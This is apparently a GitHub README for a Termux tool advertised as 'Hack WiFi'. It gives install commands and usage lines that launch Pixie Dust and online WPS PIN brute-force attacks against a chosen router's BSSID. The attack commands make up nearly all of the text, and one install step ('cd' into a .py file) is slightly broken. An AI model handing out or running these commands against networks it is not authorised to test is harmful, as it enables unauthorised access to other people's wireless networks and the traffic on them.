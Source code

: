 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
 apt update && apt upgrade
 pkg update && pkg upgrade
 pkg install tsu
 pkg install python
 pkg install git
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 git clone https://github.com/Naimulbari444/NHK-WIFI-HACK-WPA
 cd NHK_WIFI_HACK.py
 chmod +x NHK_WIFI_HACK.py
 sudo python NHK_WIFI_HACK.py --help
```

#### Example : `sudo python NHK_WIFI_HACK.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python NHK_WIFI_HACK.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python NHK_WIFI_HACK.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python NHK_WIFI_HACK.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
